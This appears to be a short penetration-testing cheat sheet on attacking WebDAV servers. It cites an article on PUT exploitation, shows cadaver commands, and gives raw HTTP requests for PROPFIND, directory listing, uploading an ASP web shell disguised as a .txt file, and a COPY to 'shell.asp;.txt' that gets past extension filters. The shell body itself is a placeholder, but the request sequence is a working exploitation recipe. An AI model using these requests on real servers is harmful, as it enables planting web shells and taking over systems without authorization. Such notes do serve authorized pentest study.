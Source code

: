 5 Methods to Upload to WebDAV
* http://www.hackingarticles.in/5-ways-to-exploiting-put-vulnerability/

##### `cadaver`
```
cadaver http://[ip]/[folder]
put, copy, move, get, etc.
```

##### WebDAV Interaction with BurpSuite
Note: It is important to leave the whitespaces after the request, to let the server know that you have completed stating your request, just like in nc, otherwise the server will wait and hang.

Retrieve properties of a resource
```
PROPFIND / HTTP/1.1
Host: 192.168.1.23
Content-Type: text/xml
Content-Length: 147
Depth: 0
Translate: f

<?xml version="1.0"?>
<a:propfind xmlns:a="DAV:">
<a:prop><a:getcontenttype/></a:prop>
<a:prop><a:getcontentlength/></a:prop>
</a:propfind>


```

Directory listing
```
GET / HTTP/1.1
Host: 192.168.1.23


```

Upload ASP shell with .txt extension to WebDAV using PUT
```
PUT /shell.txt HTTP/1.1
Host: 192.168.1.23
Content-Length: 38337

[ASP shellcode content here]
```

Move shell.txt to shell.asp;.txt
```
COPY /shell.txt HTTP/1.1
Host: 192.168.1.23
Destination: http://192.168.1.23/shell.asp%3b.txt


```
